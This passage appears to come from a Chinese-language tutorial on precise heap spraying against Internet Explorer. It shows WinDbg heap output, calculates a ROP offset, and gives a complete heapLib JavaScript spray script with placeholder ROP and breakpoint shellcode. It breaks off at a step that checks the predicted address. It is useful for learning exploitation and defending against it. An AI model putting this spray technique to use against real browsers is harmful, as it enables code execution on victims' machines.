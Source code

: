 ```
        0c100018 fff8 fff8  [0b]   0c100020    7ffc0 - (busy VirtualAlloc)
...
...
0:016&gt; !heap -p -a 0c0c0c0c
    address 0c0c0c0c found in
    _HEAP @ 140000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        0c070018 fff8 0000  [0b]   0c070020    7ffc0 - (busy VirtualAlloc)
```

可以发现地址都是以0x10000对齐的，这就为精准堆喷打下了基础，可以精确计算堆块中的位置，0x0c0c0c0c处于0x0c070018处的块中。<br>

查看一下0x0c0c0018处的内存:



```
0:016&gt; dd 0c0c0018
0c0c0018  90909090 cccccccc 90909090 90909090
0c0c0028  90909090 90909090 90909090 90909090
```

可以知道下一个块起始于0x0c0c0018+0x8，计算ROP起始偏移:



```
0x0c0c0c0c - 0x0c0c0018 + 0x8 = 0xbec
0xbec / 2 = 0x5f6
```

假设ROP链为AAAABBBBCCCCDDDD，shellcode为xccxccxccxcc，把脚本改为:



```
&lt;html&gt;
&lt;script language='javascript'&gt;
var heap_obj = new heapLib.ie(0x10000);
var code = unescape("%ucccc%ucccc");
var rop = unescape("%u4141%u4141%u4242%u4242%u4343%u4343%u4444%u4444");
var padding = unescape("%u9090%u9090");
while (padding.length &lt; 0x1000) padding += padding; // create big block of nops
offset_length = 0x5F6;
junk_offset = padding.substring(0, offset_length);
var shellcode = junk_offset + rop + code + padding.substring(0, 0x800 - code.length - junk_offset.length - rop.length);
while (shellcode.length &lt; 0x40000) shellcode += shellcode;
var block = shellcode.substring(2, 0x40000 - 0x21);
for (var i=0; i &lt; 500; i++) `{`
    heap_obj.alloc(block);
`}`
document.write("Spray done");
&lt;/script&gt;
&lt;/html&gt;
```

查看预测地址:
